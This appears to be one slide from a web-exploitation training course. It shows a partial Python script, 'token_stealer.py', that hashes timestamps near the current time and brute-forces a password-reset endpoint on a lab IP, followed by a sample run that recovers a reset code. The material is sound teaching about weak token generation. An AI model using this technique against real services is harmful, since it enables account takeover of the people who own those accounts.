

Web (cont.)
Basic Web : Writing basic web exploits (cont.)
Our script token_stealer.py will calculate the needed values to construct the token
...
password_reset_time = str(datetime.now().timestamp()).split(".")[0]
possible_password_reset_times = [str(i) for i in range(int(password_reset_time)-DIFF,
        int(password_reset_time) + DIFF)]
possible_password_reset_codes = [hashlib.sha1(code.encode()).hexdigest()
        for code in possible_password_reset_times]
for possible_code in possible_password_reset_codes:
    res = s.get("http://172.16.238.100/reset?code=" + possible_code,
                    verify=False,
                    proxies=PROXIES)
    if("New Password" in res.text):
        found = True
        print("[+] Found password reset code:", possible_code)
...
If we run this:
$ python token_stealer.py khalid@omani.cloud
[*] The password has been reset!
[+] Found password reset code: f535c5cb79fda9a518fee98d015492c25dd03db6
19